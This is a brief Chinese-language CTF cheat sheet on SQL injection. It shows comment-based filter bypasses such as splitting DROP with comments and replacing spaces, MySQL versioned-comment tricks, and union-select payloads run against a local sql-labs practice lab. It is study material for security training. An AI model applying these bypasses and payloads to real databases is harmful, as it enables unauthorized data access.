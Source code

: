 ```yaml
---
tags:
  - SQL
  - CTF
title: SQL速查表
---
```

来源
http://drops.xmd5.com/static/drops/tips-7840.html
来源(http://drops.xmd5.com/static/drops/tips-7840.html)



# 行内注释
- `/*注释内容*/`(适用于MYSQL和SQL Sever)
    - `DROP/*comment*/sampletable`
    - `DR/**/OP/*绕过过滤*/sampletable`
    - `SELECT/*替换空格*/password/**/FROM/**/Members`

MySQL专属
`select /*!80012 1/0,*/`
当MySQL版本大于80012（8.0.12）时，注释内的语句会被执行
以sql-labs为例
- mysql版本为5.7.26（50726）
- http://localhost/sql-labs/Less-2/?id=-1 union SELECT /*!80012 1/0, version(),database()*/
![](图片/Pasted%20image%2020241201092635.png)
sql语句错误
- http://localhost/sql-labs/Less-2/?id=-1 union SELECT /*!50726 1/0, version(),database()*/
![](图片/Pasted%20image%2020241201092651.png)
sql语句可以执行

